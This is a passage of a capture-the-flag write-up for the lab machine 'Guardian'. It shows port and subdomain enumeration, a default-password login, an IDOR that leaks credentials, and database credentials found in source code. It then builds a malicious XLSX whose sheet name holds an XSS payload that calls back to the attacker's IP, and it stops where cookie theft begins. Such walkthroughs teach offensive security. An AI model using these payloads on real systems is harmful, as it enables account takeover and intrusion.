

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
    - [Enumeration of gitea.guardian.htb](#Enumeration-of-giteaguardianhtb)
    - [Enumeration of portal.guardian.htb](#Enumeration-of-portalguardianhtb)
- [Student Portal](#Student-Portal)
    - [Student Portal Login with default Password](#Student-Portal-Login-with-default-Password)
    - [Student Portal Dashboard](#Student-Portal-Dashboard)
    - [Student Portal Chat](#Student-Portal-Chat)
    - [Insecure Direct Object Reference (IDOR)](#Insecure-Direct-Object-Reference-IDOR)
- [Gitea](#Gitea)
    - [Login](#Login)
    - [Enumeration](#Enumeration)
- [Privilege Escalation to Lecturer](#Privilege-Escalation-to-Lecturer)
    - [Cross-Site Scripting (XSS) in generateNavigation() Function](#Cross-Site-Scripting-XSS-in-generateNavigation-Function)
- [Privilege Escalation to admin](#Privilege-Escalation-to-admin)
    - [Cross-Site Request Forgery (CSRF) Token Bypass](#Cross-Site-Request-Forgery-CSRF-Token-Bypass)
- [Foothold](#Foothold)
    - [Remote Code Execution (RCE) through PHP Gadget Chains](#Remote-Code-Execution-RCE-through-PHP-Gadget-Chains)
- [Enumeration (www-data)](#Enumeration-www-data)
- [Database Enumeration](#Database-Enumeration)
- [Privilege Escalation to jamil](#Privilege-Escalation-to-jamil)
    - [Cracking the Hash using hashcat](#Cracking-the-Hash-using-hashcat)
- [user.txt](#usertxt)
- [Enumeration (jamil)](#Enumeration-jamil)
- [Privilege Escalation to mark](#Privilege-Escalation-to-mark)
    - [Python Library Hijacking](#Python-Library-Hijacking)
- [Enumeration (mark)](#Enumeration-mark)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Apache2 Module Abuse](#Apache2-Module-Abuse)
- [root.txt](#roottxt)

## Summary

The box starts with a few `Usernames` that be gathered on the main `website`. A quick `Subdomain Enumeration` reveals `gitea.guardian.htb`and `portal.guardian.htb`.  The `Student Portal` provides a `Guardian University Student Portal Guide` which contains a `Default Password`.

One of the users never changed the `Default Password` and this grants access to the `Student Portal`. From there on the first `Privilege Escalation` can be achieved by abusing a `Insecure Direct Object Reference (IDOR)` vulnerability in the `Chat` function of the portal. This reveals `credentials` for the `Gitea` instance which grants access to the `Source Code` of the `Student Portal` application.

After a `Secure Code Review` the next `Privilege Escalation` can be spotted. It is a `Cross-Site Scripting (XSS)` vulnerability in the `generateNavigation()` function of `phpspreadsheet` library that is used to handle the `Submissions` from the students for their `Assignments`. This leads to `Cookie Stealing` of a `Lecturer`.

As `Lecturer` the option to create `Notices` which then get's reviewed by the `admin` lead to `Cross-Site Request Forgery (CSRF)` by `bypassing` the `CSRF Token` in order to access `functions` only available to the `admin`. This allows the creation of a `Backdoor Admin User`.

With the `Backdoor Admin User` a vulnerability in the `Report Function` can be abused the gain `Remote Code Execution (RCE)` through `PHP Filter Chains` which ends up in `Foothold` on the box.

The next step is extract `Hashes` from the `MySQL Database`  with `Credentials` found in the `Source Code` of the `Studen Portal` application on the `Gitea` instance.

After `cracking` the `Hash` for the first user the `user.txt` can be obtained.

From this point on two times the abuse of `sudo` capabilities lead to `root` on the box. The first one is all about `Python Library Hijacking`. This `escalates`the `privileges` to the second user.

The second abuse makes use of `Apache2 Modules` which `escalates` the `privileges` even further and end up in a `shell` as `root` and access to the `root.txt`.

## Reconnaissance

### Port Scanning

As usual we started with out initial `port scan` using `Nmap`. It revealed that only port `22/TCP` and port `80/TCP` were open for us to work on. We also noticed a `HTTP Redirect` to `guardian.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.138.66 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 21:02 CEST
Nmap scan report for 10.129.138.66
Host is up (0.014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,80 10.129.138.66       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 21:02 CEST
Nmap scan report for 10.129.138.66
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9c:69:53:e1:38:3b:de:cd:42:0a:c8:6b:f8:95:b3:62 (ECDSA)
|_  256 3c:aa:b9:be:17:2d:5e:99:cc:ff:e1:91:90:38:b7:39 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://guardian.htb/
Service Info: Host: _default_; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.138.66   guardian.htb
```

### Enumeration of Port 80/TCP

Then we started having a closer look at the website. We noticed a few suspiciously looking `email addresses` as well as another one in the `contact form`.

- [http://guardian.htb/](http://guardian.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://guardian.htb/ 
http://guardian.htb/ [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], Email[GU0142023@guardian.htb,GU0702025@guardian.htb,GU6262023@guardian.htb,admissions@guardian.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.138.66], Script, Title[Guardian University - Empowering Future Leaders]
```




| Name             | Email                  |
| ---------------- | ---------------------- |
| Boone Basden     | GU0142023@guardian.htb |
| Jamesy Currin    | GU6262023@guardian.htb |
| Stephenie Vernau | GU0702025@guardian.htb |

| Email                   |
| ----------------------- |
| admissions@guardian.htb |

### Subdomain Enumeration

After that we searched for additionally configured `Virtual Hosts (VHOSTS)` aka `Subdomains` and found `gitea` and `portal`. Both got added directly to our `/etc/hosts` file in order to work on them.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.guardian.htb" -u http://guardian.htb/ --fw 20

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://guardian.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.guardian.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 20
________________________________________________

gitea                   [Status: 200, Size: 13498, Words: 1049, Lines: 245, Duration: 19ms]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
:: Progress: [151265/151265] :: Job [1/1] :: 2105 req/sec :: Duration: [0:00:52] :: Errors: 0 ::
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.138.66   guardian.htb
10.129.138.66   gitea.guardian.htb
10.129.138.66   portal.guardian.htb
```

### Enumeration of gitea.guardian.htb

We started with the first one which was `gitea.guardian.htb`. To our surprise we didn't found any publicly available repositories. All what we found was a single `username` called `mark`.

- [http://gitea.guardian.htb/](http://gitea.guardian.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://gitea.guardian.htb/
http://gitea.guardian.htb/ [200 OK] Apache[2.4.52], Cookies[_csrf,i_like_gitea], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[_csrf,i_like_gitea], IP[10.129.138.66], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[Gitea: Git with a cup of tea], X-Frame-Options[SAMEORIGIN]
```



| Username |
| -------- |
| mark     |

### Enumeration of portal.guardian.htb

We moved on to `portal.guardian.htb` and now we knew what those suspicious looking `email addresses` were. They were actually `usernames` for the `Student Portal`.

- [http://portal.guardian.htb/](http://portal.guardian.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://portal.guardian.htb/         
http://portal.guardian.htb/ [302 Found] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.138.66], RedirectLocation[/login.php]
http://portal.guardian.htb/login.php [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.138.66], PasswordField[password], Script, Title[Login - Guardian University]
```


There was also a `Guardian University Student Portal Guide` which contained a `default password` for new students.

- [http://portal.guardian.htb/static/downloads/Guardian_University_Student_Portal_Guide.pdf](http://portal.guardian.htb/static/downloads/Guardian_University_Student_Portal_Guide.pdf)

```shell
Guardian University Student Portal Guide
Welcome to the Guardian University Student Portal! This guide will help you get started and
ensure your account is secure. Please read the instructions below carefully.
Important Login Information:
1. Your default password is: GU1234
2. For security reasons, you must change your password immediately after your first login.
3. To change your password:
 - Log in to the student portal.
 - Navigate to 'Account Settings' or 'Profile Settings'.
 - Select 'Change Password' and follow the instructions.
Portal Features:
The Guardian University Student Portal offers a wide range of features to help you manage
your academic journey effectively. Key features include:
- Viewing your course schedule and timetables.
- Accessing grades and academic records.
- Submitting assignments and viewing feedback from faculty.
- Communicating with faculty and peers via the messaging system.
- Staying updated with the latest announcements and notices.
Tips for First-Time Users:
- Bookmark the portal login page for quick access.
- Use a strong, unique password for your account.
- Familiarize yourself with the portal layout and navigation.
- Check your inbox regularly for important updates.
Need Help?
If you encounter any issues while logging in or changing your password, please contact the
IT Support Desk at:
Email: support@guardian.htb
Remember, your student portal is the gateway to your academic journey at Guardian
University. Keep your credentials secure and never share them with anyone.
```



| Password |
| -------- |
| GU1234   |

## Student Portal

### Student Portal Login with default Password

With the three `usernames` and the `default password` we tried to login and luckily the user `Boone Basden` didn't changed his password.

| Username  | Password |
| --------- | -------- |
| GU0142023 | GU1234   |


### Student Portal Dashboard

After logging in we started `enumerating` the `Student Portal`.



### Student Portal Chat

The `Chat` function was very interesting. We found another `username` which we wrote down, just in case.



```shell
http://portal.guardian.htb/student/chat.php?chat_users[0]=13&chat_users[1]=11
```

| Username       |
| -------------- |
| mireielle.feek |

Further we found a `upload form` to submit either `.docx` or `.xslx` files to an assignment.

```shell
http://portal.guardian.htb/student/submission.php?assignment_id=15
```



### Insecure Direct Object Reference (IDOR)

Now it was time to take a very close look at the `URL` for the `Chat` because it looked like a potential `Insecure Direct Object Reference (IDOR)` vulnerability.

And indeed, we started cycling through the `users` starting on `1` and found a `password` for the user `jamil.jackson`.

```shell
GET /student/chat.php?chat_users[0]=1&chat_users[1]=2 HTTP/1.1
Host: portal.guardian.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://portal.guardian.htb/student/chats.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=k8e5po2bll4jf4frgiol6dcde9
Connection: keep-alive


```



| Username       | Password    |
| -------------- | ----------- |
| jamil.enockson | DHsNnk3V503 |

## Gitea

### Login

With the newly gathered `credentials` we logged in on `Gitea`.

| Username | Password    |
| -------- | ----------- |
| jamil    | DHsNnk3V503 |



### Enumeration

After our successful authentication we had access to the `source code` of the `portal application`.



Immediately we found some `credentials` for the underlying `MySQL Database` in `config/config.php` of `portal.guardian.htb`.

```php
<?php
return [
    'db' => [
        'dsn' => 'mysql:host=localhost;dbname=guardiandb',
        'username' => 'root',
        'password' => 'Gu4rd14n_un1_1s_th3_b3st',
        'options' => []
    ],
    'salt' => '8Sb)tM1vs1SS'
];
```

| Username | Password                 | Salt         |
| -------- | ------------------------ | ------------ |
| root     | Gu4rd14n_un1_1s_th3_b3st | 8Sb)tM1vs1SS |



The `composer.json` gave us additionally very helpful information about `phpspreadsheet` and `phpword`. Those were used to deal with the uploaded files by the students for the assignments.

- [http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/composer.json](http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/composer.json)

```php
{
    "require": {
        "phpoffice/phpspreadsheet": "3.7.0",
        "phpoffice/phpword": "^1.3"
    }
}
```



## Privilege Escalation to Lecturer

### Cross-Site Scripting (XSS) in generateNavigation() Function

After a bit of research we found a `security advisory` which described a `Cross-Site Scripting (XSS)` vulnerability in the `generateNavigation()` function.

- [https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-79xx-vf93-p7cx](https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-79xx-vf93-p7cx)

With this information in our pockets we started crafting our payload file.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ python3 -c "
from openpyxl import Workbook
wb = Workbook()
ws1 = wb.active
ws1.title = 'Sheet1'
ws1['A1'] = 'test'
ws2 = wb.create_sheet('Sheet2')
ws2['A1'] = 'test2'
wb.save('/tmp/clean_multi.xlsx')
"
```

Next we moved it to a location we wanted to work with and `unzipped` the file to modify the `.xml` files to store our payload.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ mv /tmp/clean_multi.xlsx .
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ unzip clean_multi.xlsx 
Archive:  clean_multi.xlsx
  inflating: docProps/app.xml        
  inflating: docProps/core.xml       
  inflating: xl/theme/theme1.xml     
  inflating: xl/worksheets/sheet1.xml  
  inflating: xl/worksheets/sheet2.xml  
  inflating: xl/styles.xml           
  inflating: _rels/.rels             
  inflating: xl/workbook.xml         
  inflating: xl/_rels/workbook.xml.rels  
  inflating: [Content_Types].xml
```

Our payload should gave us a callback so that we could verify that it actually worked and a bot on the `client-side` "clicked" on the submitted files. Therefore we modified the `xl/workbook.xml`, removed the content and added our payload.

```html
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
    <sheets>
        <sheet name="Sheet1" sheetId="1" r:id="rId1"/>
        <sheet name="&lt;img src=1 onerror=fetch('http://10.10.16.27/navigation_hit')&gt;" sheetId="2" r:id="rId2"/>
    </sheets>
</workbook>
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ cat xl/workbook.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
    <sheets>
        <sheet name="Sheet1" sheetId="1" r:id="rId1"/>
        <sheet name="&lt;img src=1 onerror=fetch('http://10.10.16.27/navigation_hit')&gt;" sheetId="2" r:id="rId2"/>
    </sheets>
</workbook>
```

To create a proper `.xslx` file we needed to delete the template file.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ rm clean_multi.xlsx
```

Then we build our malicious file.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ zip -r ../navigation_xss.xlsx *
  adding: [Content_Types].xml (deflated 74%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 27%)
  adding: docProps/core.xml (deflated 57%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 64%)
  adding: xl/ (stored 0%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 85%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 40%)
  adding: xl/worksheets/sheet2.xml (deflated 40%)
  adding: xl/styles.xml (deflated 77%)
  adding: xl/workbook.xml (deflated 40%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 72%)
```

A few seconds after we uploaded the file, we got our callback.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.138.66 - - [30/Aug/2025 23:19:40] code 404, message File not found
10.129.138.66 - - [30/Aug/2025 23:19:40] "GET /navigation_hit HTTP/1.1" 404 -
```

Now it was time to actually weaponize it. Our plan was to escalate our privileges from `student` to `lecturer` by stealing his `session cookie`.

```shell
